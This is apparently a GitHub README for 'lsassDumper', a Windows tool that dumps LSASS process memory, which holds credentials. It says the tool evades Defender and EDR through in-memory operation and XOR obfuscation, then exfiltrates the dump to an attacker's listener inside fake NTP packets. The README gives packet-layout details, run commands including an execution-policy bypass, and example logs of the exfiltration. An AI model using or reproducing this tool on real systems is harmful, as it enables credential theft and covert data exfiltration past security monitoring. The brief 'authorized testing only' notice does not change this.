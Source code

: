 <h1 align="center"> Project lsassDumper </h1>

## **🔍 Overview**
`lsassDumper` is an advanced tool designed to ** dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**.  
Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

The tool consists of:
- A **dumper** `memdump.c` to **extract LSASS memory** in RAM.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.  

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode|    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Root Delay (32-bit)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Root Dispersion (32-bit)                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Reference ID (32-bit)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Reference Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Originate Timestamp (64-bit)                 |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Receive Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Transmit Timestamp (64-bit)                  | <-- Exfiltrated Data
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we **embed data in this field**.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the disguise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have vscode or else configured
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**  
Use this tool **only on systems you own or have explicit permission to test**.

---
